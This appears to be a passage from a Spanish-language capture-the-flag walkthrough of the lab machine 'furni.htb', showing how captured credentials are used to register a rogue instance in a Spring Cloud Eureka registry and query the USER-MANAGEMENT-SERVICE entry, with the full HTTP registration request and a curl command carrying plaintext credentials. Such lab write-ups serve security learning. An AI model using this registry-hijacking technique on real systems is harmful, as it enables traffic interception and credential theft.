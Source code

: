 hemos conseguido credenciales!!! asi que accedemos!

<img width="1920" height="1004" alt="image" src="https://github.com/user-attachments/assets/07ee2dca-0a43-44de-82ee-c7856ade832c" />

como no tengo idea de lo que trate esto, investigamos un poco a ver de que trata

>>> Que es Eureka Server:
>>> es un componente fundamental en arquitecturas de microservicios basadas en Spring Cloud, diseñado para implementar el patrón Service Discovery (descubrimiento de servicios). Funciona como un registro centralizado donde los microservicios pueden registrarse y descubrir otros servicios dinámicamente, sin necesidad de configuraciones estáticas.

tambien conseguimos un articulo que habla de como podemos abusar de esto creando un microservicio falso

>>> https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka

pero el objetivo de nosotros no sera crear un micro-servicio falso sino crear una instancia bajo el micro-servicio `USER-MANAGEMENT-SERVICE`.
Para crear la instancia lo hacemos tal cual como si crearamos un micro-servicio, manejamos la misma peticion del articulo.

```bash
POST /eureka/apps/WEBSERVICE HTTP/1.1
Accept: application/json, application/*+json
Accept-Encoding: gzip
Content-Type: application/json
User-Agent: Java/11.0.10
Host: 127.0.0.1:8088
Connection: keep-alive
Content-Length: 1015

{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}
```

ahora vamos a identificar el micro-servicio:


<img width="1920" height="272" alt="image" src="https://github.com/user-attachments/assets/caea5003-e5d8-4866-9f17-ac14c8d77530" />

>>> 'USER-MANAGEMENT-SERVICE'

ahora vamos a extraer la informacion del micro-servicio

```bash
curl http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -u EurekaSrvr:0scarPWDisTheB3st
```
```bash
<application>
  <name>USER-MANAGEMENT-SERVICE</name>
  <instance>
    <instanceId>localhost:USER-MANAGEMENT-SERVICE:8081</instanceId>
    <hostName>localhost</hostName>
    <app>USER-MANAGEMENT-SERVICE</app>
    <ipAddr>10.10.11.66</ipAddr>
    <status>UP</status>
    <overriddenstatus>UNKNOWN</overriddenstatus>
    <port enabled="true">8081</port>
    <securePort enabled="false">443</securePort>
```